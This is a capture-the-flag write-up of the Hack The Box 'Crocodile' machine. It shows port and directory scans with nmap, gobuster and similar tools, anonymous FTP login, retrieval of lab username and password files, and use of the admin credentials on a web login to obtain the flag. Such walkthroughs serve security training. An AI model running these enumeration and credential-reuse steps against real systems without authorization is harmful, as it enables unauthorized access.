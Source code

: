 # HTB: Crocodile

### Commands from Demonstration

```
dirb http://10.129.1.15/ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

```
feroxbuster -u "http://10.8.0.222" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-recursion -t 100
```



### Nmap 

#### Nmap Scan Command
```nmap -A -T5 10.129.133.157```

#### Nmap Scan Output
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -A -T5 10.129.133.157
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-10 12:23 EDT
Warning: 10.129.133.157 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.133.157
Host is up (0.058s latency).
Not shown: 911 closed tcp ports (conn-refused), 87 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION

| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.119
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds

```

### Ports
#### 21/tcp open  ftp     vsftpd 3.0.3
Anonymous ftp sign in allowed.

Connect using command ```ftp anonymous@10.129.133.157 21```

Access granted without prompting password.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp anonymous@10.129.133.157 21
Connected to 10.129.133.157.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Check current directory using ```ls```
```
ftp> ls
229 Entering Extended Passive Mode (|||47588|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp>
```

First, transfer the allowed.userlist to the local machine by using the ```get allowed.userlist``` command
```
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||45708|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***********************************************************************|    33      374.72 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.55 KiB/s)
ftp>
```

By opening another terminal on the local machine, it is possible to ```cat``` the contents of the transferred file.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist 
aron
pwnmeow
egotisticalsw
admin
```

"Admin" seems like a user that would have higher privileges than the other accounts.

The same process can be used to obtain and read the "allowed.userlist.passwd" file:

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd 
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```



#### 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Using gobuster, search for specific file types

```
gobuster dir -u http://10.129.133.157 -w /usr/share/dirb/wordlists/common.txt -x .php
```

*-u indicates a URL, -w specifies a specific wordlist being run, and -x specifies what type(s) of file(s) to search for*

```
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u http://10.129.133.157 -w /usr/share/dirb/wordlists/common.txt -x .php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.133.157
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.hta.php             (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://10.129.133.157/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 314] [--> http://10.129.133.157/css/]
/dashboard            (Status: 301) [Size: 320] [--> http://10.129.133.157/dashboard/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.133.157/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 313] [--> http://10.129.133.157/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/server-status        (Status: 403) [Size: 279]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```

Now that the login page has been identified, it is possible to attempt to gain access with the transferred credential files found earlier in the exercise. 

### Attacking with Stolen Credentials

Comparing the two files, there are four entries per document:
```
User                Password
aron                root
pwnmeow             Supersecretpassword1
egotisticalsw       @BaASD&9032123sADS
admin               rKXM59ESxesUFHAd
```

While it would be possible to try all combinations, it would be intuitive to attempt the password that is on the corresponding line of the username. For "admin" the password "rKXM59ESxesUFHAd" will be used.

### Success!!

the flag for this box is:

```c7110277ac44d78b6a9fff2232434d16```